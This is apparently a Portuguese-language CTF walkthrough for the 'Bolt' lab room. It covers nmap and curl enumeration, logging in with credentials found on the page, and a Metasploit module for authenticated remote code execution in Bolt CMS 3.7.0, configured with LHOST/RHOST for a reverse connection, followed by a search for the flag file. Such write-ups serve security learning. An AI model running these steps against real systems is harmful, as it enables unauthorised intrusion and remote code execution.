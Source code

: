 # _**Bolt CTF**_
![](bolt.jpg)

## _**Enumeração**_
Primeiro, começamos com um scan do <mark>Nmap</mark>
> ```bash
> nmap -p 0-10000 -A -T5 [ip_address]
> ```
Para o _**username**_ que pode ser encontrado, podemos ver na página, nome da sala e afins: <mark>Bolt</mark>  
Acessando o site na porta 8000 através de <mark>[ip_address]:8000</mark> e vasculhando a página, podemos encontrar o seguinte trecho de texto  

![](text.jpg)

Algumas das informações relevantes são:
* senha → </mark>boltadmin123</mark>
* </mark>jake (admin)</mark>

Para identificar o CMS que está na página, primeiro, vamos buscar com o comando cURL
> ``` bash
> curl -S http://[ip_address]:8000 | grep -iE "generator|content|version"
> ```
![](curl_command.jpg)

Obtemos que o CMS é <mark>bolt</mark>
Novamente utilizando um cURL, conseguimos obter a página de login
> ``` bash
> curl -s http://[ip_address]:8000/bolt
> ```
![](login_page.jpg)

Uma tentativa de login com o usuário e senha descobertos foi feita, mas sem sucesso  
Uma nova tentativa de login é feita com o usuário <mark>Bolt</mark> e então, sucesso!  
Podemos identificar a versão do CMS no canto inferior esquerdo  

![](cms_version.jpg)

[Sabendo a versão e buscando em exploit-db versões anteriores e por RCE, temos que a versão 3.7.0 possui essa vulnerabilidade e seu número é 48296](https://www.exploit-db.com/exploits/48296)

Abrimos o metasploit com <mark>msfconsole</mark>
Dando um search por <mark>bolt</mark>, temos que o primeiro exploit é o que será usado nesta sala
_**exploit/unix/webapp/bolt_authenticated_rce**_

Configurações adicionais:
* _**set LHOST [ip_vpn]**_
* _**set RHOST [ip_address]**_
* _**set USERNAME Bolt**_
* _**set PASSWORD boltadmin123**_  
exploit

Após conseguir RCE, basta buscar pelo arquivo _flag.txt_ com o comando _**find**_
```bash
find / -name "flag.txt" 2>/dev/null
```
